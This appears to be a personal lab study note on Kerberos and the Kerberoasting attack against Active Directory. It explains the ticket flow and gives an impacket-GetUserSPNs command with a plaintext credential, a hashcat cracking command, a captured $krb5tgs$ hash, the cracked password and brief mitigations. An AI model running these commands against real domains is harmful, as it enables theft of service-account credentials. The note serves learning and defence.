


# Kerberoasting attack

<?xml version="1.0" encoding="UTF-8"?>
<node/>

## Kerbrose

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>

Kerberos is the default authentication protocol used by Active Directory.

Instead of sending passwords across the network, users obtain tickets from the Domain Controller (DC), specifically from a service called the Key Distribution Center (KDC).

1. User logs into the domain.

   User --&gt; KDC (Domain Controller)
   "I know my password"

2. The KDC authenticates the user and creates a TGT
   (Ticket Granting Ticket).

   TGT contains information such as:
   - Username
   - SID
   - Group memberships
   - Expiration time

3. The KDC encrypts/signs the TGT using the KRBTGT account key
   (derived from the KRBTGT password hash).

   Ticket Data
        +
   KRBTGT Key
        =
   TGT

4. The user stores the TGT and carries it around.
   The user cannot modify it.

----------------------------------------------------

ACCESSING A SERVICE

5. The user wants to access a service:

   Example:
   MSSQLSvc/server.domain.local

6. The user sends the TGT to the KDC and requests a
   service ticket (TGS).

   User --&gt; KDC
   "Here is my TGT. Give me a ticket for SQL."

7. The KDC validates the TGT using the KRBTGT key.

8. The KDC creates a TGS (service ticket).

9. The TGS is encrypted using the service account's key
   (derived from the service account password).

   Ticket Data
        +
   SQLService Key
        =
   TGS

10. The user receives the TGS and presents it to the service.

    User --&gt; SQL Server
    "Here is my TGS."

11. The service decrypts the TGS and grants access.
</rich_text></node>

## Kerbroasting attack

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>KERBEROASTING ATTACK WorkFlow:

1. Attacker is a normal domain user.

2. Attacker requests a TGS for a service account SPN.

   Attacker --&gt; KDC
   "Give me a TGS for SQL Service."

3. KDC returns the TGS.

4. The attacker DOES NOT receive:
   - password
   - NTLM hash

5. The attacker receives only the TGS.

6. The attacker extracts a crackable Kerberos hash:

   $krb5tgs$23$...

7. The attacker runs Hashcat offline.

   Hashcat tries passwords:

   Password123
   Summer2024
   Summer2024!
   Company2025
   ...

8. When the correct password is found, the TGS can be
   successfully decrypted.

9. The attacker recovers the account password.

</rich_text><rich_text foreground="#33d17a">impacket-GetUserSPNs Boss.local/cozimaki:'MYp@$$w0rd!' -dc-ip 192.168.225.128 -request</rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text><rich_text>

no go to hashcat  to crakc the hash:

</rich_text><rich_text foreground="#33d17a">hashcat.exe -m 13100 hash.txt rockyou.txt -O</rich_text><rich_text>

so here we go we got sqlservice's password : </rich_text><rich_text foreground="#f5c211">PASSword123</rich_text><rich_text>

</rich_text></node>

### res

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>$krb5tgs$23$*SQLservice$BOSS.LOCAL$Boss.local/SQLservice*$fc8f0afd721e1d5abb569c52a5def97a$d47eaa6570692ca956c404069db1d5a59af7a935e18a6f42ee981f795019f9a258b166e4d6b28f9d9bb199714c5e0eb9d72659d850f07354ca5304e511006f02fb90682cd58cc49ee6d05a1b0ce30c4c090bc3ad9ae0dba0f6b5fde7b0d06103a7e4049b16d6142a0f523e7c23260d9a01a6fa46903d27650ea6572b5e23ea1f5237115a97e483b915fd7ebd76a6b3621a3ecfd8a2e3c7cff8aee120d457d624ddb58a4571d7a1251f42a820793430a5d85be664d904f7f426767f0957b233d18509d486425cb98c3192dc78f232944aba033c3a459555994fd253050457d4694def283652cfa5579ff3f52796ffe83b7d4634801d109d682c20ea05da51f4b5ca9944cbf58e2f4b9d3bc1513217fc007237c813b84c5fc87a0a81f0472439e751c28f567abf69f1bb73e3106338f05c24d863820ebf103d4f1abed972a7fe24fa1e6ca048fa3022011ddae2b1044ecd6dcd20f29af9c0dc6cc676e2093524ef7d7ee12328621cd82f1b91ecad196c1eee889b76d41a0bd2fa0f7ac433032a43f3423ddb5e2c0679cc329f98f1f17031e132a65c04ec67779a6e04a0636c577bcdfa1cb6ae3f09f20f7ddf4036e670cc41e1773955b80ae3c86152a7d5c30366bb38eb73779eafe2f1bb19ae4fdee7dc2e0bc5fb4abffdbd875d1929234d4d05a14f594882cf6a57d03c361f5b49e531454028afdf8e1683d8f6c9a882d07b0aace192d28b9c7050d4a59ed076055e99f6aa118e2dc3f8afb5328f2a8b9dbb600882c7b6a4ec0a8425825778840068ad948fc5c2f686817dab0834ea226947a1b36a21ad8dbb86ef6f7ccebd13737686448728dbdf9acb41ab2923a956e6b95cc6027ea4cba06e5d172f2f361204b8b700c17cb82698d535c90f1dd63ddc01baab8678959eff6db41ebfa9684e361e763e4cba30c1a75b8e8f408a5358c34024eac154998d3e585b22fcd33aed55fe2d0a0f4e8addc79b349251294ca2c2b3e50be61d201e55bd3e9c89306d47882df69cba406168945f296c10bd3085d0a43f69c084a12be6dc9c335c0385fdb367d2ac82ffaa59ae112e00538537108d445ab2c5a43fa04d28b6f97cbc1ad431882a1274073aff5b5c688fe70e4eebd58eba4e93480681fe8b8e7bfb8d8e1f4d2a81561de86d2bb24df3d423ec3de5d583168e9f2f59037e62575e33cb4d05ee495055c26c8d5c25d26e90e745187c3f4ef1dac54f98b9a04f85c064be2b65491472018f55f556ce6e9cd3929236df288fbd99d0db6d4af0f6ddc2995835782c15e68d188a1ec6debcba4c8a6c03a66cbb7d9f0d0c21a3d90d38dbae81ab37de70f7a2fc0632f50ef4e356c259a0bb4db72954baeeb8bdbf9775ec558a2bb1ccf824880f05391d1f019d5325e9d63415060399a7e5af41a7841ed4ca491f4464da9109d1bbe0eaba61802dae7bcc8611b21f2cf8472ef56dbe757825cc9c79f4c925145057

</rich_text></node>

## Mitigation

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>1) having a strong password more than 14 characters
2) service accounts must not be a domain administrators</rich_text></node>

